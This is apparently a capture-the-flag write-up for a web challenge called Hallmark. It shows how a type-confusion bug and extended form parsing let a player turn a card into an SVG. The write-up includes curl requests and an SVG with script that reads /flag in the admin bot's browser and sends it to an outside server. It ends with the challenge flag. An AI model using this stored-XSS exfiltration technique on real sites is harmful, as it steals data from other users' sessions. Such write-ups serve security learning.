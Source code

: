 #### Challenge:

Send your loved ones a [Hallmark card](https://hallmark.web.actf.co/)! Maybe even send one to the [admin](https://admin-bot.actf.co/hallmark) 😳.

[Source code](./dist.tar.gz ":ignore")

---

#### Solution:

- inspecting the `index.js` reveals that we can alter already created cards via `PUT` request and change the `type` or `content`
- request handler also contains bug/typo with js `==` vs `===` that can be used for exploit as app is also using extended body parsing
  - `bodyParser.urlencoded({ extended: true })` allow us to pass arrays or objects via form params

- create the custom card with placeholder content
```bash
curl 'https://hallmark.web.actf.co/card' -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'svg=text' --data 'content=<h1>1</h1>'
```
- payload that will be used to leak the flag from within the admin browser
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
    <script type="text/javascript">
        fetch("/flag").then(r=>r.text()).then(flag=>encodeURIComponent(flag)).then(e=>fetch(`https://myserver/${e}`)).then(console.log);
    </script>
</svg>
```
- alter the `content` and `type` of the previously created `card`
```bash
curl 'https://hallmark.web.actf.co/card' -X PUT \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    --data 'id=44f0d063-7f41-41e3-bdf6-a027b0c157fe' \
    --data 'type[]=image/svg+xml' \
    --data "content=${SVG}"
```

- now all that's left is submit the `https://hallmark.web.actf.co/card?id=44f0d063-7f41-41e3-bdf6-a027b0c157fe` in the `admin` portal and check the logs of our server...

---

<details><summary>FLAG:</summary>

```
actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}
```

</details>
<br/>
